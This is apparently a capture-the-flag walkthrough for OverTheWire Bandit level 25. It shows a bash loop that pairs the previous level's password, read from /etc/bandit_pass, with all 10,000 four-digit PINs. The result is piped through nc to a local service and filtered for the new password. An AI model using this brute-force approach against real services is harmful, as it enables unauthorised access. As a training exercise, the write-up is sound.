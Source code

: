 # Level 25

We first put the input we will feed into ```nc``` into a file using the following script:  
```
for i in {0000..9999}; do
    echo "$(cat /etc/bandit_pass/bandit24) $i" >> /tmp/mybandit25/crunch 2>/dev/null;
done
```  

We then pipe the file into ```nc```  and we filter the results:  

```
cat /tmp/mybandit25/crunch |
nc localhost 30002 |
egrep -v "Wrong|Fail|I am|Correct|Exiting" |
egrep -o "[A-Za-z0-9]{32}"
```  

Finally, we ssh to verify the passkey obtained above.

```ssh -p 2220 bandit25@bandit.labs.overthewire.org```
